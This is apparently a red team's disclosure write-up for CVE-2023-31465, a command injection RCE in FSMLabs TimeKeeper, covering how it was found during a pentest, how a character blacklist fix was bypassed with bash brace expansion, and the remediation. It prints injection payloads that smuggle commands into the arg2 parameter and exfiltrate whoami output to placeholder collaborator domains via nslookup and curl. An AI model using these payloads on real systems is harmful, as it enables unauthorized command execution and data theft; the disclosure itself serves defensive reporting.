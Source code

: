 # CVE-2023-31465 | TimeKeeper by FSMLabs - RCE
During a PT activity, we managed to find a Remote Command Execution vulnerability in TimeKeeper and, while fixing it, we had the opportunity to modify and evolve the payload.
In the first paragraph we are going to explain the discovery and exploitation of the vulnerability, and this was performed during the time of the penetration testing, while in the second paragraph 
we will show the fix attempts, the re-exploitation and the final countermeasure.


## TimeKeeper version 2.0.17

In the image below is represented the request that is employed by TimeKeeper in order to set the source of IPs that has to be synchronized.

![req](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/f6e13bf7-2755-40f4-8d8c-09cf66116815)

During our first analysis, we used some Windows and Linux concatenation strings with the **ping** command to check a potential RCE vulnerability. 
We first discovered it in the *arg2* query parameter, with the following payload appended to the **earliest"** number value:

```
||ping -c 10 127.0.0.1
```

A time delay was triggered, so we kept testing with other techniques and payloads.

After some time, we uncovered the following payload, useful for retrieving hex-encoded information (the data has been hex-encoded with *xxd* in order to avoid cutting off due to the DNS protocol):

```
||nslookup $(xxd -pu <<< $(whoami)).OASTIFY.DOMAIN||x
```

Below you can observe, respectively:
* the malicious request;

![poc1](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/1a99f5a7-939a-4bfd-aab9-f9226e0d3351)

* the burp collaborator DNS interactions with hex-data exfiltrated;

![poc2](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/265b70a5-a80c-4dea-9143-5663f9aab18b)
 
* the hex-decoded values for the **whoami** and **id** commands.

![poc3](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/61f12806-36ba-46b7-b0d0-c928e0b7275d)


## TimeKeeper version 2.0.28 (BETA)

After discovering the vulnerability, we contacted directly FSMLabs to notify about the critical vulnerability.
They thanked and asked us to conduct more tests on the BETA version to ensure that the vulnerability has been fixed in the meanwhile, as version 2.0.17 was over 2 years old at the time of testing 
(2023).

A blacklist was implemented for some characters, such as: |, &, *, $, <, >, (, ), -. The previous payload, then, could not be used anymore. However, curly brackets were not
blacklisted, so we tried with the *bash expansion* technique.

Specifically, the following payload was injected:

```
;{curl,`whoami`.[collaborator_domain]};a
```

and we were still able to conduct a remote command execution.


## Remediation

The FSMLabs has fixed the vulnerability in TimeKeeper version 8.0.28.


## Vulnerable version of TimeKeeper

As a result of our testing, versions 2.0.17 through 2.0.27 are vulnerable to RCE.


## Discovered by

Francesco Iaria

Riccardo Degli Esposti

Claudio Rimensi

Francesco Varotto

